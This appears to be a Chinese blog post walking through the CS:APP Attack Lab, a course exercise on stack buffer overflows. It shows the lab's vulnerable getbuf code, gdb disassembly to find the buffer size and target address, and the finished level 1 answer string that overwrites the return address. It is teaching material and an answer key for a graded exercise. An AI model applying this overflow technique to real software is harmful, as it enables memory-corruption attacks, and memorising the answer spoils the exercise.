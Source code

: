 ## Attack Lab

这个实验我很早以前就做完了，但当时没有写博客，现在想起来，发现已经完全忘记当时怎么做的了。只好再做一次。

实验的基本玩法就是实验缓冲区溢出攻击，攻击的成功的标志是调用特定的函数。实验分为两个部分，第一部分就做Code Injection Attacks，这里栈上是可以执行代码的，并且没有栈随机化机制。第二部分叫做Return-Oriented Programming，这里栈上不能执行代码，并且有栈随机化机制。

实验中的流程是这样的，首先，主函数调用一个test函数，

```cpp
void test(){
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

test调用一个可以执行缓冲区攻击的函数。

```cpp
unsigned getbuf(){
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```

我们通过输入一个特定的字符串，使缓冲区溢出，如果能成功调用一个函数，则攻击成功。

### Part I level 1
这里我们需要调用的函数为touch1。

```cpp
void touch1(){
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

因为touch1不需要参数，所以只需要把返回地址覆盖为touch1的地址即可。为了做到这点，我们先要查看缓冲区的大小。我们需要执行以下操作。

```cpp
gdb ./ctarget
disas getbuf
	0x00000000004017a8 <+0>:     sub    $0x28,%rsp //缓存区大小为40字节
	...
disas touch1
	0x00000000004017c0 <+0>:     sub    $0x8,%rsp //touch1函数地址
```
所以，这里我们只需要先输入40个任意字符，然后再输入touch1的地址覆盖原来的返回地址，这样，函数返回的时候，就会跳转到touch1。这样我们可以构造出答案c1.txt（为了美观，这里进行了换行，真的答案没有换行，换行也支持），注意地址的输入顺序。

```cpp
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```
